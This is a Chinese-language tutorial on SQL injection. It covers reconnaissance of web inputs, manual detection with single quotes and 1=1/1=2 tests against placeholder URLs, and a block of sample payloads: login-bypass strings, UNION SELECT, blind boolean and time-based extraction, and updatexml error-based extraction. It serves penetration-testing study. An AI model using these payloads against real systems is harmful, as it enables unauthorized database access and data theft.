 <a name="Pp9PE"></a>
## SQL注入的准备工作
<a name="CXIAi"></a>
### 确定 Web 应用程序所使用的技术
可以考察 Web 页面的页脚，查看错误页面，检查页面源代码，或者使用诸如 Nessus、AWVS、 APPSCAN 等工具来进行刺探。
<a name="IJNCG"></a>
### 确定所有可能的输入方式
Web 应用的用户输入方式比较多，其中一些用户输入方式是很明显的，如 HTML 表单；<br />另外，攻击者可以通过隐藏的 HTML 表单输入、HTTP 头部、cookies、甚至对用户不可见的 后端AJAX 请求来跟 Web 应用进行交互。<br />一般来说，所有 HTTP 的 GET 和 POST 都应当作用户输入。<br />为了找出一个 Web 应用所有可能的用户输入，可以求助于 Web 代理，如 Burp 等。
<a name="kdph6"></a>
### 查找可以用于注入的用户输入
在找出所有用户输入方式后，就要对这些输入方式进行筛选，找出其中可以注入命令的那些输入方式。<br />多多留意 Web 应用的错误页面<br />通常只要带有输入提交的动态网页，并且动态网页访问数据库，都是潜在的探测点
```sql
# 万能密码:
'or '1'='1
## 源语句：
select * from user where name='xx' and pwd='hhh';
## 目标语句：
select * from user where name='' or '1'='1' and pwd='' or '1'='1'


#注入语句样例
and 1=2 union select 1,2,3 -- 
select user() regexp '^ro'
ascii(substr((select user()),1,1))=114
if(ascii(substr((select user()),1,1))=114,0,sleep 5)
ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=9
updatexml(1,concat(0x7e,(select @@version),0x7e),1)
```
<a name="nROZO"></a>
## 手工检测 SQL 注入点
最常用的 SQL 注入点判断方法，是在网站中寻找如下形式的网页链接。
```
http://www.xxxxx.com/xxx.asp?id=xx (ASP 注入)
http://www.xxxxx.com/xxx.php?id=xx (php 注入)
http://www.xxxxx.com/xxx.jsp?id=xx (jsp 注入)
http://www.xxxxx.com/xxx.aspx?id=xx (aspx 注入)
http://www.xxxxx.com/index.asp?id=8&page=99 （有多个参数，需要区分用哪个参数来验证注入）
http://www.xxxxx.com/index/new/id/8 伪静态
http://www.xxxxx.com/index/new/php-8.html 伪静态
```
<a name="EPR3O"></a>
## 判断是否存在sql注入
如何判断某个网页链接是否存在 SQL 注入漏洞呢?通常有两种检测方法。
<a name="Bmdne"></a>
### 单引号法
第一种检测 SQL 注入漏洞是否存在的方法是“单引号”法。方法很简单，直接在浏览器地址栏中的网址链接后加上一个单引号，如果页面不能正常显示，浏览器返回一些异常信息， 则说明该链接可能存在注入漏洞。
<a name="RmT81"></a>
### 1=1 和 1=2 法
很多时候检测提交包含引号的链接时，会提示非法字符，或直接不返回任何信息，这种情况下可以如下尝试：
```
#先在链接地址后加上 and 1=1，提交
xxx.com/xx.php?id=xx and 1=1
#再替换为and 1=2，提交
xxx.com/xx.php?id=xx and 1=2
```